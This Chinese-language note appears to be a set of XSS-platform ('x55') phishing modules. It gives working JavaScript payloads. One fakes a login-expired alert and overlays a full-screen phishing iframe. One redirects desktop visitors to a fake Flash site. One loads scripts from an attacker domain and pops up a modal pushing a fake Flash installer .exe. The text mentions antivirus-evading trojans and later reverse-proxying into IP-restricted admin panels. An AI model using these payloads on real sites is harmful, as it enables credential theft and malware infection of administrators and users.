 # x55-垂钓

---



## 一  .diao密码

参数：url为钓鱼页面，

作用：针对http-only获取不到cookie，且后台登陆不限制IP等

x55平台模块代码：

```
setTimeout(function(){
alert("登陆过期，请重新登陆!");
parent.document.writeln("<iframe style=\"margin:0px;padding:0px;height:100%;width:100%;\" src=\"{set.url}\" frameBorder=0 scrolling=no></iframe>");
setTimeout(function(){
document.getElementsByTagName("body")[0].setAttribute("style","margin:0px;");},100);
setTimeout(function(){
parent.document.getElementsByTagName("body")[0].setAttribute("style","margin:0px;");},100);
},1000);
```







## 二  .diao主机

### 1.跳转flash

介绍：需要搭需要flash站、免杀ma、flash相关域名

作用：针对后台限制IP登陆的目标，后期控到可以进行反向代理对后台进行访问

x55平台模块代码：

```
if (navigator.userAgent.indexOf('Mobile') == -1) {
window.location.href = 'https://xxxx.com';
}
```





### 2.弹窗flash

条件：需要搭建js(github上有)的网站、免杀ma(自己编译)

作用：针对后台限制IP登陆的目标，后期控到可以进行反向代理对后台进行访问

x55平台模块代码：(如果appendChild不行,试试换write)

```
//document.write("<script src='https://xxxx.com/layer/jquery.min.js'></script>");
//document.write("<script src='https://xxxx.com/layer/layer.js'></script>");
document.body.appendChild(document.createElement('script')).setAttribute('src','https://xxxx.com/layer/jquery.min.js');
document.body.appendChild(document.createElement('script')).setAttribute('src','https://xxxx.com/layer/layer.js');
window.onload=function(){
    layer.open({
        type: 1,
        move: false ,
        area: ['613px', '328px'],
        title: false,
        shade: 0.6,
        anim: 1,
		closeBtn:0,
		resize:false,
        offset: '100px',
        scrollbar: false,
        content: '<a href="https://xxxx.com/flashplayerpp_install_cn.exe"><img src="https://xxxx.com/layer/falshupdateimg.jpg"></a>'
    });
};

```

